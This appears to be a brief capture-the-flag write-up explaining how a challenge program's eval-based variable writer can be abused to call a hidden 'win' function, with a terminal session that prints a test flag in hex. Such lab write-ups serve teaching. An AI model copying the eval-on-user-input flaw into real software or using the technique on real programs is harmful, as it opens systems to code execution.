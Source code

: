 
#### Sol:

look source code carefully.

![1745916712632](image/README/1745916712632.png)

this function allows us to write in the table and

![1745916825099](image/README/1745916825099.png)

 it also execute our input with eval comand.

our main target is to call `win` function. let's add `win` function to the table to read the `flag` file

Here is our test flag

![1745917345081](image/README/1745917345081.png)


Let's do it

```
==> 1
1: print_table
2: read_variable
3: write_variable
4: getRandomNumber
==> 2
Please enter variable name to read: read_variable
<function read_variable at 0x7c2813207ba0>
==> 3
Please enter variable name to write: write_variable
Please enter new value of variable: win
==> 2
Please enter variable name to read: win
<function win at 0x7c2813228180>
==> 1
1: print_table
2: read_variable
3: write_variable
4: getRandomNumber
==> 3
0x70 0x69 0x63 0x6f 0x43 0x54 0x46 0x7b 0x48 0x65 0x6c 0x6c 0x6f 0x7d 
==> quit
```


![1745917407654](image/README/1745917407654.png)


Let's get the final flag

![1745917521670](image/README/1745917521670.png)

![1745917543899](image/README/1745917543899.png)
